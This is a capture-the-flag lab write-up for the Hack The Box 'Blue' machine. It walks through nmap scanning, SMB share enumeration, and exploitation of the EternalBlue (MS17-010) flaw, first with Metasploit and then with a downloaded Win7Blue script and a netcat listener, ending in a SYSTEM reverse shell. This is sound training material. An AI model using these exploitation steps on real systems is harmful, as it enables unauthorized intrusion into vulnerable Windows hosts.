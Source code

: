 # Box: Blue
# Level: Easy
# OS: Windows
<hr>

Lets get started

# Recon

## Portscanning

command:```sudo nmap -A 10.129.110.225 -T4  -v -p-```

```
Nmap scan report for 10.129.110.225
Host is up (0.15s latency).
Not shown: 65513 closed tcp ports (reset)
PORT      STATE    SERVICE      VERSION
47/tcp    filtered ni-ftp
135/tcp   open     msrpc        Microsoft Windows RPC
139/tcp   open     netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open     microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
2468/tcp  filtered qip-msgd
6099/tcp  filtered raxa-mgmt
9834/tcp  filtered unknown
19056/tcp filtered unknown
31232/tcp filtered unknown
33400/tcp filtered unknown
37044/tcp filtered unknown
45939/tcp filtered unknown
49152/tcp open     msrpc        Microsoft Windows RPC
49153/tcp open     msrpc        Microsoft Windows RPC
49154/tcp open     msrpc        Microsoft Windows RPC
49155/tcp open     msrpc        Microsoft Windows RPC
49156/tcp open     msrpc        Microsoft Windows RPC
49157/tcp open     msrpc        Microsoft Windows RPC
49393/tcp filtered unknown
49496/tcp filtered unknown
61199/tcp filtered unknown
61779/tcp filtered unknown
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=9/16%OT=135%CT=1%CU=35042%PV=Y%DS=2%DC=T%G=Y%TM=6505D5
OS:1D%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10D%TI=I%CI=I%II=I%SS=S%TS
OS:=7)OPS(O1=M539NW8ST11%O2=M539NW8ST11%O3=M539NW8NNT11%O4=M539NW8ST11%O5=M
OS:539NW8ST11%O6=M539ST11)WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=20
OS:00)ECN(R=Y%DF=Y%T=80%W=2000%O=M539NW8NNS%CC=N%Q=)T1(R=Y%DF=Y%T=80%S=O%A=
OS:S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q
OS:=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A
OS:%A=O%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RI
OS:PCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Uptime guess: 0.015 days (since Sat Sep 16 16:55:45 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-09-16T16:17:27
|_  start_date: 2023-09-16T15:55:59
| smb2-security-mode: 
|   210: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-09-16T17:17:24+01:00
|_clock-skew: mean: -19m57s, deviation: 34m37s, median: 1s

TRACEROUTE (using port 1025/tcp)
HOP RTT       ADDRESS
1   148.34 ms 10.10.14.1
2   148.63 ms 10.129.110.225

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```
Well from the scan we hav3 3 main ports opened. Our enumeration today will be focused on the port runnint the netbios service.



# Enumeration

Lets start by checking the number of shares available on the smb server

command:```smbclient -L 10.129.110.225```

This is going to prompt you for a password, just hit the ```Enter key``` since we don't have any password

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Blue]
└─$ smbclient -L 10.129.110.225
Password for [WORKGROUP\bl4ck4non]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Share           Disk      
        Users           Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.110.225 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
We have 5 smb shares available on the server

I couldn't find anything after connecting to the shares🥲.

We can check out nmap scripting engine to scan the smb port for potential vulnerabilities

command:```nmap -p 445 --script smb-vuln*.nse 10.129.110.225```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/bad2e7ad-4287-4517-a8ce-7adcfcd7c9d5)

Checking out the CVE we find this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/6923c708-17bc-472f-8a64-50392c648e03)

So it is a vulnerability that exists in ```SMBv1```. The vulnerability is  also known as ```EternalBlue```. Well, lets exploit😎




# Exploitation

We can use the metasploit module for this

command:```msfconsole```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/04cc7b9c-0896-4f6c-a88e-6bcfff2f73bf)

Good

command:```search eternalblue```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/4411b9d9-3489-466d-bbec-83b29150ce14)

Next,

command:```use exploit/windows/smb/ms17_010_eternalblue```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/0aa62370-9387-4a0c-a5fe-5a7aa7cff8a6)

We'll set the RHOSTS and LHOST. RHSOT is the target's IP, while LHOST is our tun0 IP

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/79ef8f25-2b66-4677-a5b3-77cf238d55ac)

Now we can use the ```exploit``` command to exploit

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ff992a9b-e7f7-45dc-abad-36a2fd9577cc)

We got a meterpreter session hehehe

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/bb99258e-33d4-449c-b637-585c72f91b16)

We won't be need privilege escalation, this is because we spawned a shell as the highest privileged user which is ```NT Authority\System```

Lets locate the flag

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/80dabba0-f61c-4d55-85b5-747e07af86cf)

Well that's all


Alright, wait😂. Metasploit??? well, I have some folks who would come for me if they caught me using it😂. So, we'll be doing the manual exploitation also,this is because metasploit is more of automation and all.

Well I found this great exploit, you can download from [here](https://github.com/d4t4s3c/Win7Blue)

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/52f2d875-b76e-4364-a85f-9d17ef713c68)

Now that we made the shell script executable, we can execute it with the command ```./Win7Blue.sh```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/f2bd08d7-b255-4033-9117-4b1c06f3d069)

Our target is a windows 7 with a 64 bits architecture, so we'll be choosing ```3```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/be5e0fe7-aba6-4d78-b910-8f888490fe02)

RHOST should be the target's ip

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/4b29c4e8-5f08-421f-89db-415d7a678faa)

LHOST should be your tun0 ip

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/3d763ca9-761a-4b15-b75f-7c470d64481b)

LPORT should be the port you want to listen on, before setting this ensure you have a netcat listener set up already. For example, I plan on using port ```443```, so I have my netcat listener ready 

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/c0e9a776-e6b8-4949-9080-2511b6b39b47)

Now, we can provide the LPORT

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/2d247926-c529-498e-b6f6-53eea1bcdaca)

Checking the listener we set up,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/bed411f9-6370-4788-aabb-362d3fec8194)

We spwned a shell as user ```NT Authority\System```😎

So, you can choose to either use the metasploit exploitation process or the manual exploitation process🙂


That will be all for today
<br> <br>
[Back To Home](../../index.md)







